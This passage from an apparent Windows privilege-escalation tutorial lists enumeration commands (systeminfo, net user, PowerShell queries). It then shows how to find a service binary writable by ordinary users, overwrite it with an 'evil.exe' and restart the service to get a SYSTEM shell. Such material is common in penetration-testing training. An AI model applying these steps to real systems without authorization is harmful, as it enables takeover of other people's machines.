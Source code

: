 Example output (SYSTEM):

```
nt authority\system
```

👉 If you see you’re only a regular user, you’ll need escalation.

---

## 📂 Step 2: Check Basic Enumeration

Use built-in commands to enumerate potential misconfigurations:

```cmd
systeminfo
net user
net localgroup administrators
netstat -ano
tasklist /v
```

Useful PowerShell enumeration:

```powershell
Get-LocalUser
Get-LocalGroupMember Administrators
Get-Process | Select-Object Name, Id, Path
```

---

## ⚡ Step 3: Service Exploitation (Weak Service Permissions)

One of the most common privilege escalation vectors is **misconfigured services**. Look for services you can modify:

```cmd
sc query
sc qc <service_name>
```

Check file permissions on binaries:

```cmd
icacls "C:\Program Files\ServiceFolder\service.exe"
```

If `BUILTIN\Users:(M)` (modify) is allowed, you can replace the binary with your own malicious executable and restart the service:

```cmd
sc stop vulnerable_service
copy C:\Users\lowuser\evil.exe "C:\Program Files\ServiceFolder\service.exe"
sc start vulnerable_service
```

This gives you a SYSTEM shell.

---